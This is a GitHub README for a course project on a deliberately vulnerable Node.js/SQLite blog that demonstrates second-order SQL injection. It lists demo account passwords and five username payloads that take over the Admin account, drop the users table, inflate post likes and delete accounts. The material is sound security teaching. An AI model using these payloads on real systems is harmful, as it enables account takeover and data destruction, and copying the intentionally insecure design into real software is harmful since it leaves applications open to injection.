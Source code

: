 ### TDA602 Course Project - Second-Order SQL Injection

This project demonstrates a second-order SQL injection vulnerability in a blog website.
The code is written in Node.js and SQLite, and this is a self-made blog created and designed by us. We intentionally added some lack of security measures to make the second-order SQL injection attacks possible, allowing us to demonstrate the vulnerability and emphasize the importance of proper security practices when developing web applications.

Users can create new accounts and write blog posts after logging in. Each post can be liked once, 
and the posts are sorted by the number of likes, with the most liked posts appearing at the top. 
As an admin, you have also the privilege to remove these posts.
The second-order injection attack can be performed by registering a new account with a malicious SQL 
command in the username field and then updating the password. Further details are provided below.

## Current Accounts:

Admin - Username: "Admin", Password: "dontHack"

Ava - Username: "Ava", Password: "password1"

JARVIS - Username: "JARVIS", Password: "password2"

Skynet - Username: "Skynet", Password: "password3"


## Second-Order Injection Attacks:

To perform a second-order SQL injection attack, first register a new user with an SQL injection command as the username. 
Then, log in as the new user and update the password. Afterward, the SQL command will be executed.

Examples of second-order SQL injection attacks:

1) Change the Admin's password (not the "Admin’ —" account):

```sql
Admin' --
```

2) Drop all users:

```sql
'; DROP TABLE users --
```

3) Add likes to a specific blog post (replace id with the blog post ID you want to modify, same with amount of likes):

```sql
'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --
```

4) Remove the new account
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) --
```

5) Remove last account and any other you specify
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) OR username = "'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --" --
```


## Images of the blog website:

#### Login and Register:

<img src="Screenshot 2023-04-17 at 12.33.24.png" alt="My Image" style="max-width: 70%;">

#### Logged in as admin (only difference is the delete button):


<img src="Screenshot 2023-04-17 at 12.34.25.png" alt="My Image" style="max-width: 70%;">

#### Create post and update password:

<img src="Screenshot 2023-04-17 at 12.34.34.png" alt="My Image" style="max-width: 70%;">

